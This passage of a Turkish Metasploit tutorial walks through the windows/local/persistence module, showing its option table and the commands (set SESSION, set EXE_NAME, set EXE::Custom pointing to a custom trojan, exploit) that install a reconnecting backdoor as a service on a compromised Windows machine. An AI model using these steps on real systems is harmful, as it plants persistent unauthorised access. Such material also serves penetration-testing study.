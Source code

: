 - `use exploit/windows/local/persistence` komutu ile yeni göreceğimiz handler'ı kullanıyoruz. Bu modül sayesinde kendi backdoor'umuzu hedef bilgisayara servis olarak enjekte edeceğiz. `show options` diyerek ilgili seçenekleri görebiliriz.

```
msf5 exploit(multi/handler) > use exploit/windows/local/persistence

msf5 exploit(windows/local/persistence) > show options

>>> Module options (exploit/windows/local/persistence):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   DELAY     10               yes       Delay (in seconds) for persistent payload to keep reconnecting back.
   EXE_NAME                   no        The filename for the payload to be used on the target host (%RAND%.exe by default).
   PATH                       no        Path to write payload (%TEMP% by default).
   REG_NAME                   no        The name to call registry value for persistence on target host (%RAND% by default).
   SESSION                    yes       The session to run this module on.
   STARTUP   USER             yes       Startup type for the persistent payload. (Accepted: USER, SYSTEM)
   VBS_NAME                   no        The filename to use for the VBS persistent script on the target host (%RAND% by default).


Exploit target:

   Id  Name
   --  ----
   0   Windows
```
- Hacklediğimiz bilgisayar her açılıp kapandıktan sonra internete her bağlandığında **x saniye** sonra bizimle iletişime geçsin diyoruz. **DELAY** olarak gözüken parametre bu **x saniyeye** işaret etmektedir. DELAY kadar saniye geçtikten sonra enjekte ettiğimiz servis bize bağlanmaya çalışacak.
- Açık olan session'u kullanarak backdoor'u enjekte edeceğiz. Yani **bir session'ın açık olması gerekmektedir**
- **EXE_NAME** parametresi ise servis olarak enjekte ettiğimizde hedef makinada hangi isimde bir servis olarak çalışacağıdır. `set EXE_NAME denemeservisimiz.exe`
- **SESSION** parametresi ise hangi session'a ait olacağıdır. Ne demiştik, bir session bulunmak zorundadır. Buraya parametre olarak ilgili session numarasını veriyoruz. `set SESSION 1` (benim hedef makinamın SESSION numarası 1)

- Dilersek istediğimiz kendi oluşturduğumuz trojan'ı kullanabiliriz. `show advanced` ile biraz daha ileri seviye opsiyonları açabiliriz. 
- **EXE::Custom** olarak gözüken parametre bizim belirlemek istediğimiz trojanı temsil eder. `set EXE::Custom /var/www/html/servis_trojan.exe` (benim trojanım burada olduğu için bu path'i verdim. Sizinki nerede ise onu vermeniz gerekmektedir. İsterseniz bu aşamayı pas geçebilirsiniz, msfconsole kendi backdoor'unu enjekte edecektir.)
- Ardından `exploit` diyerek exploit'i çalıştırıyoruz ve hedef makinamıza backdoor'u bir servis olarak enjekte ediyor.
